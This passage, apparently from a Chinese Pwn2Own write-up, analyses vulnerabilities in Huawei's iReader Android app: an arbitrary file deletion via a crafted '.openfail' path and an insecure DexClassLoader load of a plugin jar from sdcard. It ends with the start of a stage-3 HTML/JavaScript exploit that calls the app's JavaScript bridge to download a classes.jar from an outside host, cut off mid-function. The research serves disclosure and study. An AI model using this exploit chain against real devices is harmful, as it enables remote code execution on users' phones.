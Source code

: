 ``` java
    }    

```
根据以上代码,也即是存在路径**/sdcard/HWiReader/books/.openfail/md5(fileName)**即可实现删除任意文件。

#### 不安全组件加载
寻找不安全的组件加载漏洞,挖掘思路自然是需要分析应用的目录结构,我们通过查看sdcard和data/沙盒中有关iReader应用的目录,查看是否有加载so/dex/jar等等需要动态加载的组件。

经过分析，我们找到**/sdcard/HWiReader/plugins/DFService/classes.jar**,接下来自然是全局搜索相关字符串关键词,定位到加载该组件的地方。最终定位为:**com.zhangyue.iReader.tools.Util**

``` java
//bk.p
 protected final ArrayList P() {
    ...
    Object v2 = Util.loadPlug(APP.getAppContext(), v3.getPlugDir("DFService") + "classes.jar", "com.zhangyue.iReader.Plug.Service.DocFeature").newInstance();
    ...        
}

//com.zhangyue.iReader.tools.Util
 public static Class loadPlug(Context arg4, String arg5, String arg6) throws Exception {
     return new DexClassLoader(arg5, arg4.getApplicationInfo().dataDir, null, arg4.getClassLoader()).loadClass(arg6);
}
       
```

接下来需要解决两个问题:

1. 加载classes.jar,并且初始化的类怎么去构造？

	这个只需查看loadClass(arg6),传进来的参数是什么即可。很显然，这里为**com.zhangyue.iReader.Plug.Service.DocFeature**
	
2. 怎么让iReader App去加载这个jar文件？

	这一步骤只需往前追溯调用链即可寻找到触发点。
	最终的触发点为:下载txt文件。

### 0x03 漏洞利用
#### 前面两部分的漏洞利用分析

* [Pwn2Own华为HiApp漏洞原理与利用分析(上)](http://www.freebuf.com/terminal/172780.html)

* [Pwn2Own华为HiApp漏洞原理与利用分析(下)](http://www.freebuf.com/vuls/173921.html)

#### 第三阶段的漏洞利用exploit代码如下:

``` javascript
<!DOCTYPE html>
<html>
<head>
	<title> exploit iReader stage 3 </title>
</head>
<body>
	<script type="text/javascript">

		// 首先构造任意文件删除攻击连
		function create_hash()
		{
		   var  HASH_FILE_ID = '123456';
		   var  HASH_URI = 'http://www.tasfa.cn/classes.jar';
		   var json ='{"Action":"onlineReader","Data":{"Charging":{"FeeType":0,"OrderUrl":"http://192.168.137.1:8001/aaaaa","Price":"0"},"DownloadInfo":{"ChapterId":"1","FeeUnit":10,"Type":"1","FileId":"'+ HASH_FILE_ID +'","FileName":".openfail/5457bea93d0548a4d84357308df45322","FileSize":10000000,"Ebk3DownloadUrl":"' + HASH_URI + '","DownloadUrl":"' + HASH_URI + '","Version":"2"}}}';
		   window.ZhangYueJS.do_command(json);
```